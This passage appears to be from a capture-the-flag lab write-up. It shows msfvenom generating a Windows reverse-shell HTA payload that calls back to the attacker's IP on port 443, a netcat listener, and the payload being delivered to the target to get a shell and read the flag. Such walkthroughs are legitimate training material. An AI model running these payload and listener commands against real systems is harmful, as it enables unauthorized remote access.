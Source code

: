 ***

Let's go with the `HTA` version:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.136.34 LPORT=443 -f hta-psh -o thm.hta
```

Once we generate the `.hta` file, we can do:

```
sudo nc -lvnp 443
```

Now, let's go to the target site:

```
http://10.10.118.217:8080/
```

We need to start a python server to be able to host the file, once we start the file, we can download it into the target machine with:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512151130.png)

Make sure to change `IP` to your `tun0` ip, once it downloads, it will automatically execute in our listener:

![](gitbook/cybersecurity/images/Pasted%20image%2020250512151205.png) As seen, we get a shell as `desktop-1au6nt4\thm`, let's read our flag:

```
C:\Users\thm\Desktop>type flag.txt

THM{b4dbc2f16afdfe9579030a929b799719}
```

